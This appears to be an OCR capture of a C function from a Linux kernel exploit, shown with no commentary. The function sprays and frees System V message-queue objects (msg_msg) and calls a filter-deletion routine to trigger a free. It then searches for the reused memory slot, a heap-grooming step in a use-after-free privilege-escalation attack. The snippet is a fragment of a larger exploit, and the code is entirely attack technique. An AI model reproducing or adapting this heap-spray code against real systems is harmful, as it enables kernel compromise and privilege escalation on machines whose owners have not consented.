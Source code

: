 ```c
static void find_reuse_one(void)
{
    int i;
    int ret;
    struct msgbuf {
        long mtype;
        char mtext[0x40];
    } msg;

    memset(&msg, 0, sizeof(msg));
    ret = msgrcv(g_qid[found_cross_qid], &msg, 0x3f, 1, IPC_NOWAIT);
    if (ret < 0)
        errExit("[-] msgrcv to free the cross cache one");

    msg.mtype = 1;
    memset(msg.mtext, 'G', sizeof(msg.mtext));
    for (i = 0; i < REUSE_PAGE_NUM * ONEPAGE_K128_NUM; i++) {
        ret = msgsnd(g_reuse_qid[i], &msg, sizeof(msg.mtext), 0);
        if (ret < 0)
            errExit("[-] msgsnd to alloc msg_msg");
    }

    send_del_filter(0x43);

    memset(&msg, 0, sizeof(msg));
    for (i = 0; i < REUSE_PAGE_NUM * ONEPAGE_K128_NUM; i++) {
        ret = msgrcv(g_reuse_qid[i], &msg, 0x3f, 0, IPC_NOWAIT | MSG_COPY);
        if (ret > 0) {
            found_reuse_qid = i;
            break;
        }
    }

    if (found_reuse_qid < 0) {
        printf("[-] Cannot find the reuse one :(\n");
        exit(-1);
    }

    printf("[+] Find the reuse one is at %d msgq\n", found_reuse_qid);

    memset(&msg, 0, sizeof(msg));
    ret = msgrcv(g_reuse_qid[found_reuse_qid], &msg, 0x3f, 1, IPC_NOWAIT);
    if (ret < 0)
        errExit("[-] msgrcv to free the reuse one");

    msg.mtype = 2;
    memset(msg.mtext, 'H', sizeof(msg.mtext));
    for (i = 0; i < found_reuse_qid + 1; i++) {
        ret = msgsnd(g_reuse_qid[i], &msg, sizeof(msg.mtext), 0);
        if (ret < 0)
            errExit("[-] msgsnd to alloc msg_msg");
    }
}
```
